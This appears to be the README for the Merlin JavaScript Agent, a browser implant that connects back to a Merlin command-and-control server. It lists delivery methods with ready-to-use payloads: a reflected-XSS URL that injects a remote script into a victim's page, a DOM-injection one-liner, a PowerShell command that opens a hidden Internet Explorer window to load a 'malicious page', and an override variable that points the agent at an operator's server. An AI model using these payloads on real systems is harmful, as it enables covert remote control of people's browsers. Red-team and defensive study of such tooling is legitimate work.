 [![JavaScript Style Guide](https://cdn.rawgit.com/standard/standard/master/badge.svg)](https://github.com/standard/standard)

# Merlin JavaScript Agent
This version of the Merlin Agent is written in JavaScript and can be run
in any location that can execute JavaScript. Web browsers can be found
on a multitude of devices to include computers, tablets, phones, TVs,
cars, and gaming systems. These are good candidates places to run a
Merlin agent.

An introductory blog post can be found here:
https://medium.com/@Ne0nd0g/merlin-javascript-all-up-in-your-browsers-e46d6449382


[![asciicast](https://asciinema.org/a/RHKqctghoo9fCkIVZjyMQV0N7.png)](https://asciinema.org/a/RHKqctghoo9fCkIVZjyMQV0N7)

## Usage
The Merlin JavaScript Agent functions the same as other agents. It is
controlled through the server using the same commands. It is important
to note that the Merlin JavaScript Agent is only capable of executing
JavaScript commands. For example, you could execute `2 + 2` and the
agent will return `4`. Alternatively, you can execute `alert('Merlin')`
and a JavaScript alert box will appear on the page where the Merlin
Agent is running.

## Limitations
* Browser must support HTTP/2
* JavaScript XHR calls will fail if using a self-signed/untrusted TLS
certificate
* Your commands are limited to the sandbox environment (unless there is
a vulnerability to escape it)
* Web browser must stay in the foreground on mobile devices to keep
running

## JavaScript Override Variable
The Merlin Server address is hardcoded into the `url` variable inside
of the JavaScript file. However, the Merlin JavaScript Agent will check
for existence of the `oURL` variable prior to executing the main
function. This variable is used to _override_ the hardcoded `url`
variable. This is useful when you want to deliver the JavaScript file
but don't want to change the `url` parameter prior to delivery. An
example of practical application is in the *Deployment Methods* section.

## Deployment Methods
* Merlin JavaScript Agent Test Page
* Cross-Site Scripting (XSS)
* Inject directly into the DOM
* Windows IE COM Object
* Override oURLJavaScript variable

### Merlin JavaScript Agent Test Page
Merlin ships with an HTML page that can be used to test the
_Merlin JavaScript Agent_. It can be found at `data/html/merlin.html`.
This page will automatically load the Merlin JavaScript agent, connect
to the Merlin Server, and start writing verbose messages to the screen.
The quickest way to try this out it is to use Python and start a simple
web server in the `html` directory (i.e.
`cd data/html;python -m SimpleHTTPServer`) and then browse to page with
`http://127.0.0.1:8000/merlin.html`.

### Cross-Site Scripting (XSS)
Let's assume that you've found a XSS vulnerability in a GET parameter
for Acme Widgets. For example the `page` parameter of
`https://www.acme.com/index.html?page=1` reflects back the value to the
user. You can exploit this XSS vulnerability to create a link that would
 deliver a Merlin Agent to a victim if they click the link. An example
 of the Merlin payload would be `var merlin=document.createElement('scri
 pt');merlin.src='http://127.0.0.1:8000/scripts/merlin.js';document.head.appendC
 hild(merlin);`.

 An example of the full payload is:

`https://www.acme.com/index.html?page=var%20merlin=document.createElement('script');merlin.src='http://127.0.0.1:8000/merlin.js';document.head.appendChild(merlin);`

### Inject into the DOM
Most web browser come with developer tools. These tools can be used to
execute JavaScript commands on _any page_ that you are viewing. On Firefox
 you can hit the `F12` key to open the developer Web Console. From
 there, you can execute this command:

`var merlin=document.createElement('script');merlin.src='http://127.0.0.1:8000/scripts/merlin.js';document.head.appendChild(merlin);`

### Windows IE COM Object
Using PowerShell, you can create and hide an Internet Explorer COM
object. This would create an Internet Explorer window, hide it so that
the user can't see it, and then browse to your malicious page. This
method also has the most obstacles. The newly created window will not
trust your self-signed certificates, so you must be using a valid TLS
certificate. _*For testing*_, you can circumvent this by making the
windows visible, browsing to the root of your web server, and creating
an exception in Internet Explorer. After creating the exception, then
you can navigate the web page to your malicious page and then hide the
window again. Additionally, Internet Explorer seems to error out if your
 malicious page is not served from the same place as your Merlin Server.
 This caused the hidden Internet Explorer window re-appear (made
visible) on its own.


You can use the built-in _Merlin JavaScript Agent Test Page_ to serve
the payload, but your probably better off creating a page somewhere
else with minimal HTML. If you decide to serve the _Merlin JavaScript
Agent Test Page_ to deliver the payload, you can shutdown the server
giving out the page (not the Merlin Server) right after it is grabbed
by the client. The malicious HTML page does not need to be available
after initial delivery. Merlin Server is not currently setup to serve
the _Merlin JavaScript Agent Test Page_ itself, yet. I will work on
getting it implemented.

An example PowerShell command is:

`$W=New-Object -com 'InternetExplorer.Application';$W.visible=$False;$W.navigate('http://www.acmewidgets.com:8000/merlin.html')`

### Override URL
You can host the JavaScript in its original form without having to hard
code your Merlin Server’s URL in the file. Merlin checks the DOM for the
`oURL` variable and will use its value to connect back with (if it
exists). This provides flexibility to dynamically change the Merlin
Server’s URL on the fly.

Note: If the place you are hosting the file returns the JavaScript file
with a content-type of `text/plain`, then the _Merlin JavaScript Agent_
will fail to load due to strict MIME type checking. The precludes you
from calling the file directly from GitHub. However, if no content-type
is provided, the agent should run.

An example command is: `var oURL='https://your.merlin.server:443/';var merlin=document.createElement('script');merlin.src='https://some.hosting.provider/merlin.js';document.head.appendChild(merlin);`
